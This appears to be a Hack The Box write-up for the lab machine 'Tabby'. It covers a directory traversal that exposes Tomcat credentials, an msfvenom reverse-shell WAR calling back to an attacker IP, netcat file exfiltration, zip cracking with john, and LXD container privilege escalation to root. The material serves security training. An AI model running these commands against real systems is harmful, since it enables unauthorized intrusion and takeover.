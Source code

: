 ```yaml
---
layout: post
title:  "HTB Writeup [Linux - Easy] - Tabby"
published: false
---
```


![](/assets/Tabby/Tabby.png)

### Summary
- Tabby is linux machine hosting both Apache web server and Tomcat.
- The website on port 80 had a Directory Traversal vulnerability which enabled us to read a tomcat configuration file that contained valid credentials.
- Using those, we get a user with enough privileges to upload a WAR file containing a reverse shell. With that, we access to the box as the `tomcat` user.
- We find an encrypted backup archive in the webroot. We crack it with `john` to get a password.
- The password was reused by another user on the box (`ash`). And, he happened to be a member of the `lxd` group.
- We escalate our privileges to root by creating a specially-configured container.

---

### NMAP
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The nmap gives us areas to check: the website on port 80 and the Tomcat instance on port 8080

### Port 80
The home page was mostly static content.

![](/assets/Tabby/homepage-port-80.jpg)

except for the link for the "News" page.

note: on the link below, notice how the host name changes to "megahosting.htb"

![](/assets/Tabby/virtual-host-routing.jpg)

an entry in our `/etc/hosts` should take care of this.

```
10.10.10.194 megahosting.htb
```

we also notice that `news.php` handles a parameter called `file`. this looks like a file inclusion vulnerability.

![](/assets/Tabby/lfi-spotted.jpg)

trying `/etc/passwd` in the parameter doesn't work.

but going 4 directories back with `../../../../` gets us the confirmation we need.

![](/assets/Tabby/lfi-confirmed.jpg)

after a couple of tries to get the path right, we are able to retrieve the source code of the `news.php` file:

![](/assets/Tabby/news-php-src-code.jpg)

the `fopen` function here makes this a Directory/Path Traversal vulnerability and not a Local File Inclusion.

that's because `fopen` just reads a file's contents. it doesn't evaluate PHP code like `include` or `require`

Knowing this bit spares us the effort of trying to get code execution by including PHP.

### Reading sensitive files
As a quick check, I try to read the `ash` user's private SSH key from `/home/ash/.ssh/id_rsa`. But it's not that easy :)

I then think "maybe I should check out the tomcat to avoid any rabbit holes". Just in case there's something to be found there.

![](/assets/Tabby/tomcat-homepage.jpg)

We get some decent information from this page. the webroot and where Tomcat is installed.

But, when it comes to Tomcat, there's a very important file called `tomcat-users.xml`. it's in `/usr/share/tomcat9/etc/` by default.

When we check, it's there!

We get creds for a user with very nice privileges :]

![](/assets/Tabby/reading-tomcat-users-xml.jpg)

### Exploiting the manager-script tomcat role to get RCE
The `manager-script` role has enough access to upload a reverse shell as a WAR file.

we can create that using `msfvenom`

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.16.3 lport=9000 -f war -o revvy.war
```

![](/assets/Tabby/creating-a-war-file.jpg)

then upload the war file using `curl`

```bash
curl -v -u tomcat:'$3cureP4s5w0rd123!' -T revvy.war "http://tabby:8080/manager/text/deploy?path=/shell&update=true"
```

start up a `netcat` listener on port 9000

```bash
nc -lvnp 9000
```

before curling the endpoint for our reverse shell

```bash
curl http://tabby:8080/shell
```

we're in as `tomcat`

![](/assets/Tabby/shell-as-tomcat.jpg)

### Pivoting through Password Reuse

Right after improving my shell, I start with checking the files in `/var/www/html`

there's a folder called `files`. It contained a password-protected zip archive that's owned by the `ash` user.

![](/assets/Tabby/finding-ashes-zip-file.jpg)

we transfer it over to our kali using `netcat` so we can crack it

```bash
# on the victim
nc -lvnp 5000 < 16162020_backup.zip
# on the attacker
nc tabby 5000 > ash_backup.zip
```

and, to make sure the file wasn't corrupted in-transit, we do a quick integrity check using `md5sum`.

![](/assets/Tabby/transferring-zip-file.jpg)

we use `zip2john` to get a hash for `john` to crack

![](/assets/Tabby/zip-password.jpg)

successfully cracked. but we don't find anything important after unzipping the archive :/

![](/assets/Tabby/zip-files.jpg)

the files were practically the same as the original ones.

But, since we now have a password, we can try it against `ash` and `root`

didn't work with `root`, but did with `ash` :)

![](/assets/Tabby/logged-in-as-ash.jpg)

### LXD Privilege Escalation
As you may have noticed from the previous image, `ash` is part of the `lxd` group

![](/assets/Tabby/lxd-group-membership.jpg)

It's almost exactly the same situation as in the [Brainfuck Privesc](https://omnisl4sh.github.io/2022/08/17/Brainfuck.html#lxd-privilege-escalation).

one minor difference is that we have to initialize the LX daemon with `lxd init` before importing the image.

note: also make sure to add `/snap/bin` to the `PATH` environment variable as it's not there by default.

```bash
export PATH=$PATH:/snap/bin/
```

![](/assets/Tabby/lxd-init.jpg)

for a bit of automation, we're going to throw the commands in a bash script, here are the contents:

```bash
#!/bin/bash
lxc image import alpine-small-image.tar.gz --alias myimage
lxc image list
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

within the container root shell, we add an SUID bit to the host's bash so we can run it as `root`

```bash
chmod +s /mnt/root/bin/bash
```

![](/assets/Tabby/lxc-root-bash-script.jpg)

### Cleaning Up

to clear out the remnants, we have to stop the container, delete it along with the image we imported.

```bash
lxc stop mycontainer
lxc delete mycontainer
lxc image delete myimage
```

![](/assets/Tabby/lxc-cleanup.jpg)